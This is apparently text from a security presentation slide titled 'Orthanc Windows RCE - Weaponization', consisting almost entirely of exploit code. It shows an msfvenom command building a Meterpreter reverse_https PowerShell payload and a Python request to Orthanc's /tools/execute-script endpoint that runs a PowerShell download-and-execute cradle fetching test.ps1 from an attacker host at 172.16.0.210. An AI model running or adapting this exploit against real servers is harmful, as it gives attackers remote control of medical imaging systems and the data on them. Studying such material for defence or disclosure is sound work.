

# Orthanc Windows RCE - Weaponization
# Start the server in a separate thread
server_thread = threading.Thread(target=run_server)
server_thread.start()

#Create Simple MSF PowerShell runner: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=HOST LPORT=PORT EXITFUNC=thread -f psh-net > test.ps1
res = client.post(f"{args.url}/tools/execute-script", content='os.execute("powershell -exec bypass -C IEX(New-Object Net.WebClient).downloadString(\'http://172.16.0.210:81/test.ps1\')")')